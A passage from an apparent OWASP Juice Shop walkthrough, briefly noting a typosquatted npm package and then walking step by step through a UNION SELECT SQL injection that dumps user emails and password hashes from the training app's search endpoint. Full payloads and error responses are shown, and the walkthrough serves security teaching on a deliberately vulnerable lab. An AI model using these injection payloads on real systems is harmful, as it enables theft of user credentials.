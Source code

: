 You can probably imagine that the typosquatted `epilogue-js` would be *a lot harder* to distinguish from the original repository `epilogue`, if it where not marked with the *THIS IS **NOT** THE MODULE YOU ARE LOOKING FOR!*-warning at the very top. Below you can see the original `epilogue` NPM page:

![epilogue on NPM](media/blog4/npm_epilogue.png)

### **Retrieve a list of all user credentials via SQL Injection**

1. During the [Order the Christmas special offer of 2014](https://pwning.owasp-juice.shop/companion-guide/latest/appendix/solutions.html#_order_the_christmas_special_offer_of_2014) challenge you learned that the `/rest/products/search` endpoint is susceptible to SQL Injection into the `q` parameter.
2. The attack payload you need to craft is a `UNION SELECT` merging the data from the user's DB table into the products returned in the JSON result.
3. As a starting point we use the known working `'))--` attack pattern and try to make a `UNION SELECT` out of it
4. Searching for `')) UNION SELECT * FROM x--` fails with a `SQLITE_ERROR: no such table: x` as you would expect. But we can easily guess the table name or infer it from one of the previous attacks on the *Login* form where even the underlying SQL query was leaked.
5. Searching for `')) UNION SELECT * FROM Users--` fails with a promising `SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns` which least confirms the table name.
6. The next step in a `UNION SELECT`attack is typically to find the right number of returned columns. As the *Search Results* table in the UI has 3 columns displaying data, it will probably at least be three. You keep adding columns until no more `SQLITE_ERROR` occurs (or at least it becomes a different one):
    1. `')) UNION SELECT '1' FROM Users--` fails with `number of result columns` error
    2. `')) UNION SELECT '1', '2' FROM Users--` fails with `number of result columns` error
    3. `')) UNION SELECT '1', '2', '3' FROM Users--` fails with `number of result columns` error
    4. (…)
    5. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8' FROM Users--` *still fails* with `number of result columns` error
    6. `')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users--` finally gives you a JSON response back with an extra element `{"id":"1","name":"2","description":"3","price":"4","deluxePrice":"5","image":"6","createdAt":"7","updatedAt":"8","deletedAt":"9"}`.
7. Next you get rid of the unwanted product results changing the query into something like `qwert')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users--` leaving only the "`UNION`ed" element in the result set
8. The last step is to replace the fixed values with correct column names. You could guess those **or** derive them from the RESTful API results **or** remember them from previously seen SQL errors while attacking the *Login* form.
9. Searching for `qwert')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--` solves the challenge giving you a the list of all user data in convenient JSON format.
    
    ![User list from UNION SELECT attack](media/blog4/union_select-attack_result.png)
    

There is of course a much easier way to retrieve a list of all users as long as you are logged in: Open [http://localhost:3000/#/administration](http://localhost:3000/#/administration) while monitoring the HTTP calls in your browser's developer tools. The response to [http://localhost:3000/rest/user/authentication-details](http://localhost:3000/rest/user/authentication-details) also contains the user data in JSON format. But: This list has all the password hashes replaced with `*`-symbols, so it does not count as a solution for this challenge.
